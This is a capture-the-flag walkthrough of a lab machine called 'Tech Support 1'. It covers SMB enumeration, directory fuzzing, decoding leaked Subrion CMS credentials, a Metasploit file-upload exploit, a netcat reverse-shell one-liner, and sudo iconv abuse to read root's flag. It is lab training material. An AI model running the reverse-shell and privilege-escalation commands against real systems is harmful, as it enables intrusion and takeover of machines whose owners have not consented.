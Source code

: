 ```yaml
---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
```


# TECH\_SUPPORT 1

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |

## RECONNAISSANCE

***

We got `smb` enabled, let's try anonymous login:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.224.191/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```

If we check the `test` directory, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411151834.png)

In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411152549.png)

There's a redirection, if we follow it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411153208.png)

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.

## EXPLOITATION

***

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```

Let's use CyberChef with the `magic` operation, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411154612.png)

There we go, we got the shell, we can migrate to `netcat`

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250411154905.png)

If we use linpeas, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411155553.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250411155606.png)

```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![](gitbook/cybersecurity/images/Pasted%20image%2020250411155740.png)

Nice, let's read `root.txt`:

```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250411160756.png)

```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250411160820.png)

